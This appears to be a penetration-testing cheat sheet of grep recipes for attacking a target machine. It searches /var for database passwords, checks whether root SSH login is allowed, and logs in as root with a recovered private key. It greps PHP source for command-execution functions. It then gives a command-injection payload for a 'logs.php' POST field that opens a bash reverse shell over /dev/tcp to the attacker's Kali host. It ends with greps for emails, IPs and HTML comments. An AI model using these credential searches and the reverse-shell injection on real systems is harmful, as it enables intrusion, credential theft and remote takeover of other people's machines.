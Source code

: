 #### Grep'n for passwords

```bash - target
cd /var/
```

```bash - target
grep -rli "db_login" * 2>/dev/null
```

```bash - target
grep -rli "db_user" * 2>/dev/null
```

```bash - target
grep -rli "db_password" * 2>/dev/null
```

```bash - target
grep -rli "DBUSER" * 2>/dev/null
```

```bash - target
grep -rli "DBPASS" * 2>/dev/null
```

```bash - target
grep -rli "password" * 2>/dev/null
```

```bash - target
grep -rli "pass" * 2>/dev/null
```

```bash - target
grep -rli "pwd" * 2>/dev/null
```

#### Grep for root ssh logins are allowed
```bash - target
grep PermitRootLogin /etc/ssh/sshd_config
```

![[Pasted image 20211230152209.png]]

Copy the key value to kali box, then change permissions:

```bash - kali
chmod 600 root_key
```

Use the key to SSH to the target as the root account:

```bash - kali
ssh -i root_key root@$TARGET
```


#### Grep'n for PHP vulnerabilities
```bash - kali
grep -R -e system -e exec -e passthru -e '`' -e popen -e proc_open * | more
```

![[Pasted image 20221115145905.png]]

Here we see some comments, but the middle entry for logs.php is a legit finding.

We would just go to the logs.php page, capture the post request in Burp, and modify the request to:

```bash - burp
delim=comma;bash -c 'bash -i >%26 /dev/tcp/$KALI/443 0>%261'
```

#### Grep'n for HTML comments from HTTrack
```bash - kali
grep -r '<!--.*-->' ./ | grep -v "HTTrack" | more
```

#### Grep'n for emails from HTTrack
```bash - kali
grep -Eiorh '([[:alnum:]_.-]+@[[:alnum:]_.-]+?\.[[:alpha:].]{2,6})' "$@" * | sort | uniq
```

```
https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet
```

#### Grep'n for IPs
```bash - kali
grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}"
```

#### Grep'n for details in access logs
```bash - kali
grep -o '[^/]*\.js' access_log.txt | sort -u 
```

